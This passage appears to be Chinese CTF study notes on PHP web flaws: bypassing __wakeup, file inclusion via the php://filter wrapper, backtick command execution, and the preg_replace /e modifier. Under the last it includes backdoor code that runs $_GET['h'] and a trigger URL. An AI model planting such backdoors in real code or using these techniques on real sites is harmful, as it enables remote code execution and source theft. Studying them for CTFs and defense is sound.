在字符串中，前面的数字代表的是后面字符串中字符的个数，如果数字与字符个数不匹配的话，就会报错，因此将1改成2就会产生报错，导致不会去执行 __wakeup 函数，从而绕过该函数。

### 文件包含

http://10.2.1.1:20770/index.php?page=upload
这种 url 很容易就能想到可能是文件包含或者伪协议读取
http://10.2.1.1:20770/index.php?page=php://filter/read=convert.base64-encode/resource=upload
命令执行

反引号 `

反引号 ` 可以调用 shell_exec 正常执行代码


```
`$_GET['v']` 相当于 shell_exec($_GET['v'])
preg_replace()
```

触发条件：

第一个参数需要e标识符，有了它可以执行第二个参数的命令
第一个参数需要在第三个参数中的中有匹配，不然echo会返回第三个参数而不执行命令，举个例子：



```
// 这样是可以执行命令的
echo preg_replace('/test/e', 'phpinfo()', 'just test');
// 这种没有匹配上，所以返回值是第三个参数，不会执行命令
echo preg_replace('/test/e', 'phpinfo()', 'just tesxt');
```

我们可以构造这样的后门代码



```
@preg_replace("//e", $_GET['h'], "Access Denied");
echo preg_replace("/test/e", $_GET["h"], "jutst test");
```

当访问这样这样的链接时就可以被触发


```
http://localhost:8000/testbug.php?h=phpinfo();
```

### 常见函数
strpos — 查找字符串首次出现的位置
strcmp - 比较两个字符串
	
本函数返回：  
0 - 如果两个字符串相等  
<0 - 如果 string1 小于 string2  
\>0 - 如果 string1 大于 string2  

$GLOBALS



#### trim()

trim函数过滤
